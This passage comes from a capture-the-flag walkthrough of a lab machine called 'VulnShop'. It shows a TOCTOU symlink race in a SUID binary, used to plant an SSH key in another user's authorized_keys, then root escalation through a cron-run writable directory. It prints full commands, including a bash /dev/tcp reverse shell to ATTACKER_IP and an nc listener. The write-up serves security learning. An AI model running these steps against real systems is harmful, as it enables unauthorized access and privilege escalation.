print(''.join(chr(b ^ key) for b in enc_out))
```

We see that binary uses a `/home/jonny/.report_out` directory 



We can do the same with `DAT_00102010` , as a result array 

```
[ 0x75, 0x32, 0x35, 0x37, 0x3f, 0x75, 0x30, 0x35, 0x34, 0x34, 0x23, 0x75, 0x74, 0x28, 0x3f, 0x2a, 0x35, 0x28, 0x2e, 0x05, 0x33, 0x34 ]
```

And we got a `/home/jonny/.report_in` . With this information we can ask a questions 

Who controls the input?
main()
`local_10 = fopen(local_68, "r");   // local_68 = /home/jonny/.report_in`
`/home/jonny/.report_in` sits in jonny's home directory — jonny can create it and control its content entirely.
Who writes the output?

  // main()
 ```
  local_18 = fopen(local_a8, "w");   // local_a8 = /home/jonny/.report_out
 ```

  The binary is SUID owned by sarah, so this fopen(..., "w") runs with effective UID = sarah. Whatever gets written
  to .report_out is written as sarah.
Is there any validation on the content being copied?


  // main()
  ```
  while (local_20 = fread(local_938, 1, 0x800, local_10), local_20 != 0) {
      fwrite(local_938, 1, local_20, local_18);
  }
  ```
  
  No validation what so ever — raw byte-for-byte copy from input to output. If .report_in contains an SSH public key, sarah will write exactly that.
  Key conclusion: jonny controls the input content, sarah writes the output — the only question left is when exactlysarah opens .report_out for writing, and whether there is a window to redirect it somewhere else before that happens. This leads back to sleep(0x1e) in main().



`sleep(0x1e)` = sleep(30) — 30 second delay between the security check and the write.

```
// STEP 1 — security check happens HERE
  iVar1 = lstat(local_a8, &local_138);
  if (iVar1 == 0) {
      if ((local_138.st_mode & 0xf000) == 0xa000)  // is it a symlink?
          return 1;                                  // yes → exit
      unlink(local_a8);                              // no → delete it
  }

// STEP 2 — 30 second gap
  sleep(0x1e);

// STEP 3 — file is opened for writing HERE (as sarah)
  local_18 = fopen(local_a8, "w");

```

  Why this is critical:
  
  The symlink check happens at step 1 and the file is opened at step 3 — with a 30 second window in between. The check and the use of the file are not atomic.
  This means:
  - At step 1 — `.report_out` is checked, it is not a symlink ✓
  - During sleep(30) — attacker replaces .report_out with a symlink pointing to `/home/sarah/.ssh/authorized_keys`
  - At step 3 — binary opens .report_out as sarah, follows the symlink, and writes the SSH public key directly into authorized_keys

The binary trusted the result of lstat() but the filesystem state changed before fopen() was called. This is the classic TOCTOU (Time Of Check To Time Of Use) race condition.

So we generate a SSH key pair
```
ssh-keygen -t ed25519 -f /tmp/attacker_key -N ""
```

Output
```
Generating public/private ed25519 key pair.
Your identification has been saved in /tmp/attacker_key
Your public key has been saved in /tmp/attacker_key.pub
The key fingerprint is:
SHA256:c8Pb5Nqg9kMmNOPa5We3g1qpBUuiJ18BdfVMESMmxSE jonny@vulnshop
The key's randomart image is:
+--[ED25519 256]--+
|          .E+*o++|
|         . .+..+.|
|        .       o|
|        +o       |
|       oSoB .    |
|       .o=+X .   |
|      oo.*= *.   |
|      .+oooB+ o  |
|       .o.==...o |
+----[SHA256]-----+
```

Write public key into `.report_in`

```
echo "$(cat /tmp/attacker_key.pub)" > /home/jonny/.report_in
```

Binary will copy exactly this content into the output file.

Also check if key exists

```
cat /home/jonny/.report_in
```

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICWf2cnBUhNvuB+MRTA7RtFmlJRkt7Hz1qSurxNuXj0e jonny@vulnshop
```

Remove any existing `.report_out`

```
rm -f /home/jonny/.report_out
```

Ensures `lstat()` finds nothing — binary skips the symlink check entirely.

Launch binary in background

```
/usr/local/bin/log-report &
```

Plant the symlink during `sleep(30)`

```
ln -sf /home/sarah/.ssh/authorized_keys /home/jonny/.report_out
```

Wait for binary to finish

Binary woke up, opened .report_out as sarah, followed the symlink, and wrote the public key into authorized_keys.




There transfer a `/tmp/attacker_key` to local machine 
```
chmod 600 attacker_key
```

And connect by ssh

```
ssh -i attacker_key sarah@$TARGET
```




### Privilege Escalation to root

During enumeration of Sarah's account, it was noted that she is a member of the `netdata` group.

```
id
```

Output:
```
uid=1002(sarah) gid=1002(sarah) groups=1002(sarah),988(netdata)
```

So what is `netdata`. Netdata is a real-time performance monitoring tool. It runs as a background service and collects system metrics — CPU, memory, disk, network. On this machine it is accessible only from localhost on port 19999.

According to the Netdata documentation, the `/api/v2/info` endpoint exposes useful information such as the version, configuration paths, and installation directory.

```
curl -s http://127.0.0.1:19999/api/v2/info | python3 -m json.tool
```

```
"version": "v2.10.3"
"home": "/opt/netdata"
```

Further enumeration of the Netdata installation reveals directories and files accessible to members of the `netdata` group.

```
find /opt/netdata -ls 2>/dev/null
```

Inspecting the installation reveals a group-writable directory owned by `root:netdata`
```
63877      4 drwxrwsr-x   2 root     netdata      4096 May 30 11:19 /opt/netdata/custom-checks
```

The directory permissions are set to `2775`, making it writable by members of the `netdata` group. Since `sarah` belongs to this group, she can create files within the directory. Inspecting the associated cron job reveals that root periodically executes any executable `.sh` file placed there.

```
cat /etc/cron.d/netdata-custom
```

```
# Netdata custom health checks — team members can add monitoring scripts here
*/1 * * * * root find /opt/netdata/custom-checks -maxdepth 1 -name "*.sh" -executable -exec bash {} \;
```

Every minute, root finds all executable .sh files in that directory and runs them with bash. Sarah can write .sh files there. Root executes them. This is the privesc path.

Create the malicious script

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/ATTACKER_IP/9002 0>&1
```

Copy

```
cp reverse_shell.sh /opt/netdata/custom-checks/
```

Give execute permission 

```
chmod +x /opt/netdata/custom-checks/reverse_shell.sh
```

Listener

```
rlwrap nc -lnvp 9002
```




## Conclusion

VulnShop demonstrated how multiple low-impact issues can be chained together to achieve full system compromise, from a web application flaw to root access.

Thank you for reading.

— colosion


